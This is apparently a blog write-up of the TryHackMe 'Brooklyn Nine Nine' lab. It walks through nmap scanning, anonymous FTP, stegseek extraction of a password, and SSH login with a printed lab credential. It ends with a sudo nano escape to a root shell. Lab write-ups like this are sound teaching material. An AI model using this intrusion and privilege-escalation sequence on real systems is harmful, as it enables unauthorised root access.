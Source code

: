 # Brooklyn Nine Nine

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg)

## Difficulty = Easy

***


Running our nmap scan we have 3 ports opened -:

```bash
# Nmap 7.94 scan initiated Fri Oct 20 10:29:37 2023 as: nmap -p80,21,22 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.143.68
Nmap scan report for 10.10.143.68
Host is up (0.43s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.75.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 10:30:03 2023 -- 1 IP address (1 host up) scanned in 26.09 seconds
```

Checking `FTP` we have a note for us, we can download it with the `mget` command

![](https://i.imgur.com/R9lmhDe.png)


Checking the note, we can see that we have 3 usernames which is **Amy**, **holt** and **Jake** and it looks like Amy tells Jake to change his password because it is too weak 😂 (Great hint)

![](https://i.imgur.com/JDmisMn.png)

Navigating to port `80/HTTP` we have this website

![](https://i.imgur.com/XLZtecj.png)


Viewing **Page-source** we have this commented text

![](https://i.imgur.com/qsJmKaz.png)

Navigating to `/brooklyn99.jpg` we truly have the image, we can download it with `wget` or just right click and **save**

![](https://i.imgur.com/nHk9snS.png)

Running a tool called `stegseek` on this image we found a `note.txt` file saved as `brooklyn99.jpg.out` on our system

```bash
$ sudo apt install stegseek
```


![](https://i.imgur.com/hn0gOGV.png)


Concatenating `brooklyn99.jpg.out` looks like we found a new user called, **Holt's**, with his/her password

![](https://i.imgur.com/aLM5ZhM.png)

Running dir/file bruteforce with `dirsearch` nothing seems convincing (just to be sure we are doing the right thing 🐬)

![](https://i.imgur.com/cjs9a56.png)

we successfully logged in via `SSH` with the credentials we found, `holt:fluffydog12@ninenine`

![](https://i.imgur.com/hR2TUYq.png)

Navigating to `/var/www/html` we have a **photo.jpg** file

![](https://i.imgur.com/7fnluZV.png)


We can download it using `wget` again and run it through `stegseek`


![](https://i.imgur.com/rId9zfS.png)


As we can see we don't have much information than somoene's POC 😂

![](https://i.pinimg.com/originals/e6/29/49/e6294964e26db35f05e41e25e689b19d.gif)


Running `sudo -l` we can see that we can run `/bin/nano` with the **sudo** command

![](https://i.imgur.com/CZZKJQ1.png)

Here is the command to get root with nano

```bash
$ sudo /bin/nano

# Ctrl+R - Ctrl+X
^R^X

$ reset; sh 1>&0 2>&0
```


![](https://i.imgur.com/cAdqJEq.png)


Have fun 😀

![](https://i.pinimg.com/originals/f0/5d/3c/f05d3cb8b8791d735bd6b9b8ae6be817.gif)




<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


